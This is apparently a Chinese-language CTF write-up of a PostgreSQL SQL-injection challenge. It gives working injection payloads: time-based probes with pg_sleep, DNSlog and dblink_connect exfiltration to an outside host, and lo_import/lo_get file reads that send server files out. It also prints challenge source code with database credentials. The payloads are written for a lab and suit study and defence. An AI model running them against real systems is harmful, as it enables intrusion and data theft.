只做了一道题，按F注入，研究了pgsql，算个小笔记，不能算研究性文章

<!-- more -->

## 按F注入

打开题目看到只能手机访问，看到了源码

```php
<body>只有手机才能访问<!--function is_mobile(){-->
<!--if (isset ($_SERVER['HTTP_USER_AGENT'])) {-->
<!--$clientkeywords = array(-->
<!--'nokia','sony','ericsson','mot','samsung','htc','sgh','lg','sharp','sie-','philips','panasonic','alcatel','lenovo','iphone','ipod','blackberry','meizu','android','netfront','symbian','ucweb','windowsce','palm','operamini','operamobi','openwave','nexusone','cldc','midp','wap','mobile'-->
<!--);-->
<!--//从HTTP_USER_AGENT中查找手机浏览器的关键字-->
<!--if (preg_match("/(" . implode('|', $clientkeywords) . ")/i", strtolower($_SERVER['HTTP_USER_AGENT']))) {-->
<!--return true;-->
<!--}-->
<!--}-->
<!--return false;-->
<!--}--></body>
```

于是在HEADER里添加`User-Agent: mobile`即可



点击任何都是JavaScript脚本` javascript:alert('投票成功,恭喜您获得奶奶一个') `，底部发现了提示

` <!--<a href="?f=1">我选择按下F进入TK</a>--> `

于是访问`./?f=1`没有变化，猜测SSRF或SQL注入，但是没有其他提示。

访问`./?f=1'`发现有弹窗



fuzz一波，发现`#`和`%23`都会一直弹窗，而使用`--`注释即`?f=1' --`却不会弹窗，搜索一波发现是 PostgreSQL ，猜测**语法错误**或者**报错**会有弹窗

甚至搜到了原题，赛后向 [@HA1C9ON](https://ha1c9on.top/) 大佬请教得知，当时比赛的WP是有错误的，后续会道来。

测试一下发现`./?f=`

> - `gyy`，没有警告
> - `gyy'`，警告
> - `gyy' and 1=0 --`，没有警告
> - `gyy' and 1=1 --`，没有警告
> - `gyy' order by 1 --`，没有警告
> - `gyy' order by 2 --`，没有警告
> - `gyy' order by 3 --`， 警告
> - `gyy' union select 1,2 --`， 警告
> - `gyy' union select 1,'2' --`，没有警告
> - `gyy' union select 1,pg_sleep(10) --`， 警告
> - `gyy' union select 1,cast(pg_sleep(10) as text) --`，没有警告（有延迟！）
> - `gyy' union select 1,'2' from pg_database --`，没有警告
> - `gyy' union select 1,'2' from gyy --`， 警告
> - `gyy' union select 1,chr(65) --`，没有警告
> - `gyy' union select 1,chr(-65) --`，没有警告

由order by可以判断此处列数为2，由union select可以判断1处对应列为数值类型，2处对应非数值类型

### 方法一：延时注入

 postgrest数据库中的延时函数有`pg_sleep()`/`pg_sleep_for()`/`pg_sleep_until()`

查阅资料得知：

>
>pg_sleep(seconds)
>pg_sleep_for(interval)
>pg_sleep_until(timestamp with time zone)
>
>pg_sleep让当前的会话进程休眠seconds 秒以后再执行。seconds是一个double precision 类型的值，所以可以指定带小数的秒数。
>pg_sleep_for 对于指定为interval的较长睡眠时间是一个便利函数。 
>pg_sleep_until在需要特定唤醒时间时比较便利。
>
>SELECT pg_sleep(1.5);
>SELECT pg_sleep_for('5 minutes');
>SELECT pg_sleep_until('tomorrow 03:00');

当时比赛脚本参考 [balsn](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/exp.py)

这里不做阐述，因为最终得出结果

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
counts of search:0
```

`searches`表为空，所以本题应读取文件

### 方式二：信息带外

利用DNSlog方式

在PostgreSQL中，存在dblink模块，可以外联数据库或者当前数据库，dblink_connect同时会对host进行DNS查询，利用查询给定DNS的子域名，再查DNS解析记录即可获取传递的信息，这里用[ceye](http://ceye.io/)来记录

首先看看dblink模块有没有开启

```
./?f=1' union select 1,(select dblink_connect('')) --
```

没有报错，说明可以操作继续尝试

```
./?f=1' union select 1,(select dblink_connect('host=' || (SELECT current_database()) || '.xxxx.ceye.io user=a password=a dbname=a')) --
```

xxxx是ceye个人的 Identifier ，可见成功返回了当前数据库名



原理是通过`.`连接，让pgsql去解析host即给定DNS的子域名，从而带出信息。顺着这个方法可以带出来部分信息

接着就要考虑如何文件包含了，在这里原WP写的很清楚

> 我们可能确实需要从中窃取数据`/var/lib/postgresql/data/secret`。不幸的是，如果我们尝试使用`pg_read_file`或`pg_read_binary_file`读取文件，则不会获得传入连接，因此当前用户可能无权使用这些功能。
>
> 读取文件的替代方法是使用[大对象](https://www.postgresql.org/docs/11/lo-funcs.html)。我们可以用来`lo_import`将文件的内容加载到`pg_largeobject`目录中。如果查询成功，我们将获得对象的`oid`。

 当前用户为docker，不够权限执行系统管理员才能执行的函数`pg_read_file()`, `pg_ls_dir()` or `pg_stat_file()` ，也不方便写udf，没有写权限。

下面截取原WP的部分内容：

> 碰到这种情况也就是需要绕过的时候的做法，一般都是谷歌百度，然后阅读文档，另外可以自己起一个环境去搜索相关的函数。例如在这里，balsn的做法是另外起一个环境：
>
> ```text
> SELECT proname FROM pg_proc WHERE proname like '%file%';   查询所有带有file的函数
> pg_stat_get_db_temp_files
>  pg_walfile_name_offset
>  pg_walfile_name
>  pg_rotate_logfile_old
>  pg_read_file_old
>  pg_read_file
>  pg_read_file
>  pg_read_file
>  pg_read_binary_file
>  pg_read_binary_file
>  pg_read_binary_file
>  pg_stat_file
>  pg_stat_file
>  pg_relation_filenode
>  pg_filenode_relation
>  pg_relation_filepath
>  pg_show_all_file_settings
>  pg_hba_file_rules
>  pg_rotate_logfile
>  pg_current_logfile
>  pg_current_logfile
> ```
>
> 但是这些函数都似乎没起作用
>
> ```text
> SELECT proname FROM pg_proc WHERE proname like '%read%';   查阅带有read的函数
> loread
>  pg_stat_get_db_blk_read_time
>  pg_read_file_old
>  pg_read_file
>  pg_read_binary_file
> ```
>
> 可以看到第一个方法，通过查阅文档（学会阅读文档很重要！）
>
> loread是面向SQL的大对象函数，比如`lo_from_bytea`，`lo_put`，`lo_get`，`lo_creat`, `lo_create`,
>
> ```
> lo_unlink`， `lo_import`和 `lo_export
> ```
>
>  服务器端的`lo_import`和 `lo_export`函数和客户端的那几个有着显著的不同。 这两个函数在服务器的文件系统里读写文件， 使用数据库所有者的权限进行。 因此，只有超级用户才能使用他们。相比之下，客户端的输入和输出函数在客户端的文件系统里读写文件， 使用客户端程序的权限。客户端函数不需要超级用户权限。
> `lo_read`和`lo_write`的功能通过服务器端调用可用， 但是服务器端函数名不同于客户端接口，因为他们不包含下划线。你必须作为`loread`和`lowrite` 调用这些函数。 
>
> 在将服务器端lo_import和lo_export函数授权给非超级用户时需要仔细考虑安全隐患。 具有此类权限的恶意用户可以轻松地将其变为超级用户（例如，通过重写服务器配置文件），或者可以攻击服务器的其余文件系统，而无需获取数据库超级用户权限。 因此，对这两个函数的权限授予必须谨慎。


回到题目中来，lo_import方法可以读取文件为postgres对象，原准备利用lo_export写文件，可是应该是没有权限

我们先包含`index.php`看看源码

```
./?f=gyy' union select (select lo_import('/var/www/html/index.php')),'2' --
```

**请注意！请注意！请注意！**错误写法：

`./?f=gyy' union select 1,(select dblink_connect('host=' || (select lo_import('/var/www/html/index.php')) || '.xxxx.ceye.io user=a password=a dbname=a')) --`

表面上确实返回了oid



但是，在 dblink下 lo_import只是在vps上的 生效，并没有实际包含，在方式三会有实验证明，在最后有对注入点的解释。

然后接下来发现，这里利用DNSlog进行信息外带还有的问题是要遵循DNS协议，最大位数不超过63位，且不能有任何特殊符号及空格回车之类的，只能用`substring`函数一段一段截取，还得`replace`替换字符，可以完成但非常麻烦，不推荐使用。


### 方式三：数据库外联

为了更好理解，下面先进行实验测试，dblink下 lo_import只是在vps上的 生效，并没有实际包含，详情可见如下

---

#### 实验

服务器或本地起一个pgsql服务，可以安装，也可以docker起一个记得开端口映射，然后将其中的` postgresql.conf `中设置`listen_addresses = '*'`以监听。然后运行tcpdump监听端口流量

```
sudo tcpdump -nX -i eth0 port 5432
```

默认端口为5432

dblink下包含文件

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=postgres password=postgres dbname=@'|| (select lo_import('/var/www/html/index.php')) )) --
```



返回oid16438，我们读取一下所有oid列表看一下

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT string_agg(cast(oid as text), ',') FROM pg_largeobject_metadata) || ' password=postgres dbname=postgres')) --
```

没有报错，同时，**没有任何数据返回**

而我们直接包含`index.php`试一下

```
?f=gyy' union select (select lo_import('/var/www/html/index.php')),'2' --
```

没有报错，再查一下oid列表



有数据返回，同时可见16439和16440，而16438并没有在列表中，读取16438数据没有返回，读取16439与16440正常返回


可见dblink下lo_import在本地是不生效的

---

这是原WP里的错误，原因在于其flag文件本身就已经包含在大对象里，所以直接就可查询，而dblink状态下并没有生效，算是这次比赛这道题目的最大收获吧。


如实验所示，流程如下，IP记得替换成自己的

首先起服务如实验中所示

先将`index.php`包含进来，看看有没有线索

```
?f=gyy' union select (SELECT lo_import('/var/www/html/index.php')),'2' --
```

然后读取全部oid列表

```
?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT string_agg(cast(oid as text), ',') FROM pg_largeobject_metadata) || ' password=postgres dbname=postgres')) --
```



（多按几下就会有多个oid，见谅...）

然后读`index.php`的oid读取数据，这里可以直接读，lo_get数据转码为UTF-8，然后替换换行符(chr(10))再替换空格(chr(32))即可明文读取

```
./?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=@' || (SELECT replace(replace(substring(convert_from(lo_get(16440),'utf8'),1,900),chr(10),''),chr(32),'')) || ' password=postgres dbname=postgres')) --
```



当然看不清可以base64读取自己转

```
./?f=gyy' union select 1,(SELECT dblink_connect('host=IP user=postgres password=postgres dbname=@'||(SELECT replace(substring(encode(lo_get(16440),'base64'),1,900),chr(10),'')))) --
```



得到`index.php`源码

```
<?php

error_reporting(0);
session_start();

function is_mobile(){
    if (isset ($_SERVER['HTTP_USER_AGENT'])) {
        $clientkeywords = array(
            'nokia','sony','ericsson','mot','samsung','htc','sgh','lg','sharp','sie-','philips','panasonic','alcatel','lenovo','iphone','ipod','blackberry','meizu','android','netfront','symbian','ucweb','windowsce','palm','operamini','operamobi','openwave','nexusone','cldc','midp','wap','mobile'
        );
        if (preg_match("/(" . implode('|', $clientkeywords) . ")/i", strtolower($_SERVER['HTTP_USER_AGENT']))) {
            return true;
        }
    }
    return false;
}
if (!is_mobile()) {
    die("<!--function is_mobile(){-->
<!--if (isset (\$_SERVER['HTTP_USER_AGENT'])) {-->
<!--\$clientkeywords = array(-->
<!--'nokia','sony','ericsson','mot','samsung','htc','sgh','lg','sharp','sie-','philips','panasonic','alcatel','lenovo','iphone','ipod','blackberry','meizu','android','netfront','symbian','ucweb','windowsce','palm','operamini','operamobi','openwave','nexusone','cldc','midp','wap','mobile'-->
<!--);-->
<!--//ŽHTTP_USER_AGENT¸­—-->
<!--if (preg_match(\"/(\" . implode('|', \$clientkeywords) . \")/i\", strtolower(\$_SERVER['HTTP_USER_AGENT']))) {-->
<!--return true;-->
<!--}-->
<!--}-->
<!--return false;-->
<!--}-->");
}

$user_input = $_GET['f'];

if ($_SESSION["sql_injection"]) {

    $user_input2 = $_SESSION["sql_injection"];

    if(preg_match("/dblink/i", $user_input2)) {
        if(preg_match("/host/i", $user_input2)) {
            $limit = 1;
        }
        $user_input2 = preg_replace('/(connect_timeout ?=)/i', '', $user_input);
        $user_input2 = preg_replace('/(host=)/i', 'connect_timeout=2 host=', $user_input);
//        hack for tcpdump ,only dns
        $user_input2 = preg_replace('/(user=\')/i', 'hack', $user_input2);
        $user_input2 = preg_replace('/(password=\')/i', 'hack', $user_input2);
    }

    $dbconn = pg_connect("host=127.0.0.1 port=5432 dbname=docker_db user=docker password=aYRr45lTgN9I9LJcjcr0");
    pg_query($dbconn, "SET statement_timeout TO 0");
    pg_query($dbconn, "SET idle_in_transaction_session_timeout TO 20");
    pg_query($dbconn, "SET lock_timeout TO 20");

    $sql = "SELECT * FROM searches WHERE search = '".$user_input2."'";

    try {
        if (pg_prepare($dbconn, "my_query", $sql)) {
            $start = microtime(true);
            pg_send_query($dbconn, $sql);
            $error = 0;
        } else {
            pg_send_query($dbconn, "SELECT id FROM searches WHERE search = '0'");
            $error = 1;
        }
    } catch (Exception $e) {
        // Do nothing
    }
}

$_SESSION["sql_injection"] = $user_input;

?>
```

好像没啥，根据 `hint：不是所有sql都叫PostgreSQL；flag在web目录下的某个文件里。` 确定，关键文件肯定在这里，于是继续尝试，读到了`.hatccess`，包含一下，再读一下

`.htaccess`

```
<FilesMatch "pushF1n4AnK">
  SetHandler application/x-httpd-php
</FilesMatch>

AddType image/jpeg .tank
```

可疑文件`pushF1n4AnK`，读一下



至此题目结束了

最后说一下注入点的问题

### 注入点

#### DNSlog

对于DNSlog，注入点在host，即`... host='|| (query) ||'.xxxx.ceye.io ...`，上面已解释过

#### 数据库外联

注入点在明文传输的部分，即`... user='|| (query) ||'...`和`... dbname='||(query) '`最后不需要`|`连接符，因为没有东西加了会报错

举例，例如在获取所有大对象oid时，在`user`处注，如图所示



```
user.xxxx.database.postgres
```

即`user`和`dbname`处都是明文传输的都可以注，而password不行

## 感谢

感谢 [@HA1C9ON](https://ha1c9on.top/) 大佬的教导，感谢 @egg 师傅的指导，以及和 @R1chm0nd 师傅赛后讨论指正payload中`user=' || (query) || '`的`|`或符合其实是连接符，学习了。

## 参考链接

https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md

https://zhuanlan.zhihu.com/p/78908281?from_voters_page=true

https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/dblink-lo_import-data-exfiltration

https://balsn.tw/ctf_writeup/20190603-facebookctf/

https://ha1c9on.top/2021/01/31/2021-cqb-write-up/ la佬博客，希望能和师傅一样强，能和师傅换友链

https://blog.pentesteracademy.com/postgresql-udf-command-execution-372f0c68cfed (写udf的，没用上2333)

http://www.postgres.cn/docs/9.4/functions-datetime.html#FUNCTIONS-DATETIME-DELAY

https://www.postgresql.org/docs/11/dblink.html